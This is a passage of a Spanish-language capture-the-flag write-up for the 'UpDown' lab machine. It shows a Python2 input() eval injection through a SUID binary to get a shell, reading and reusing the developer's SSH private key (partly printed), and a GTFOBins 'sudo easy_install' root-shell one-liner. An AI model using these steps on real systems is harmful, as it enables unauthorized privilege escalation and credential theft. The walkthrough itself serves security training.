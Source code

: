 - SUIDs -> /home/developer/dev/siteisup
```console
www-data@updown:/tmp$ strings /home/developer/dev/siteisup
/usr/bin/python /home/developer/dev/siteisup_test.py
```
En el directorio home de developer estan estos dos archivos, tanto el binario siteisup como el test.py
```python
www-data@updown:/tmp$ cat /home/developer/dev/siteisup_test.py
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
	print "Website is up"
else:
	print "Website is down"
```
Es un python2 porque al print no lo pone entre parentesis sino con un espacio.
```console
www-data@updown:/home/developer/dev$ ./siteisup         
Welcome to 'siteisup.htb' application
Enter URL here:__import__('os').system("bash")
developer@updown:/home/developer/dev$ 
```
Esta vulnerabilidad se acontece porque python2 cuando ejecuta input, le pasa su contenido a la funcion eval() que sirve
para ejecutar codigo.
Seguimos sin poder leer la user flag, asi que nos metemos al directorio .ssh de developer y copiamos la id_rsa
```console
developer@updown:/home/developer/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAmvB40TWM8eu0n6FOzixTA1pQ39SpwYyrYCjKrDtp8g5E05...
└─$ vim id_rsa
└─$ chmod 600 id_rsa
└─$ ssh -i id_rsa developer@10.10.11.177   
developer@updown:~$ 
```
------------------------------------------------
# Part 6: Gtfobins

Nuestro usuario tiene como sudoers -> (ALL) NOPASSWD: /usr/local/bin/easy_install
En [gtfobins](https://gtfobins.github.io/gtfobins/easy_install/#sudo) nos dicen como explotar esto:

```console
developer@updown:$ TF=$(mktemp -d)
developer@updown:$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:$ sudo easy_install $TF
```

